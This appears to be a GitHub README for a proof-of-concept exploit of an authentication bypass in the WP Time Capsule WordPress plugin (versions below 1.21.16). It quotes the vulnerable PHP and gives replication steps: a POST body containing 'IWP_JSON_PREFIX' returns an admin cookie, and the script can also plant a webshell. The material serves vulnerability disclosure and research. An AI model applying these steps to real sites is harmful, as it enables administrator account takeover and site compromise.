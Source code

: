 # Backup and Staging by WP Time Capsule < 1.21.16 - Authentication Bypass Proof Of Concept

An authentication bypass was recently discovered (https://www.webarxsecurity.com/vulnerability-infinitewp-client-wp-time-capsule/) on WP Time Capsule < 1.21.16 . This PoC prove how the issue works and how it can be exploited.

## The PoC
This POC offer two different options:
- Case 1 : grab the admin cookie
    Example:
    ```
    poc.py http://127.0.0.1/
    ```
- Case 2 : grab the admin cookie + upload a password protected webshell on /wp-content/plugins/shell/shell.php
  Example:
  ```
  poc.py http://127.0.0.1 shell
  ```


## The issue

The function  decode_server_request_wptc() , which is inside the wptc-cron-functions.php and is called by the Wptc_Init constructor does not perform any kind of privilege checking while decoding the requests sent on the body:


```
if( !empty($HTTP_RAW_POST_DATA_LOCAL)
  && strpos($HTTP_RAW_POST_DATA_LOCAL, 'IWP_JSON_PREFIX') !== false ){

  wptc_log('', "--------IWP_JSON_PREFIX--coming------");

  wp_cookie_constants();
  wptc_login_as_admin();
}
```

It simply checks that the body on any POST request contains the string IWP_JSON_PREFIX, if so , it
calls the methods:
```
  wp_cookie_constants();
  wptc_login_as_admin();
```
wptc_login_as_admin() gets all the admin users, extract the first  one and returns a cookie for that
username.
```

function wptc_login_as_admin(){

	wptc_log(func_get_args(), "--------" . __FUNCTION__ . "--------");

	wptc_define_admin_constants();

	if( !function_exists('is_user_logged_in') ){
		include_once( ABSPATH . 'wp-includes/pluggable.php' );
	}

	if(is_user_logged_in()){
		return ;
	}

	$admins = get_users(array('role' => 'administrator'));

	foreach ($admins as $admin) {
		$user = $admin;
		break;
	}

	if (isset($user) && isset($user->ID)) {
		wp_set_current_user($user->ID);
		// Compatibility with All In One Security
		update_user_meta($user->ID, 'last_login_time', current_time('mysql'));
	}

	if(!defined('SECURE_AUTH_COOKIE')){

		return;
	}

	$isHTTPS = (bool)is_ssl();

	if($isHTTPS){
		wp_set_auth_cookie($user->ID);
	} else{
		wp_set_auth_cookie($user->ID, false, false);
		wp_set_auth_cookie($user->ID, false, true);
	}
}
```

## Replicating the issue
For this test we used:
  - A docker-compose ready Wordpress Image https://github.com/nezhar/wordpress-docker-compose
  - wp-time-capsule 1.21.15
  - Burp suite

Steps involved:
  1. Access to a new session on the browser
  2. Go to wp-login.php
  3. Writedummy username and password
  4. Replace any part of the BODY with the following string: IWP_JSON_PREFIX
  5. Go back to the home page

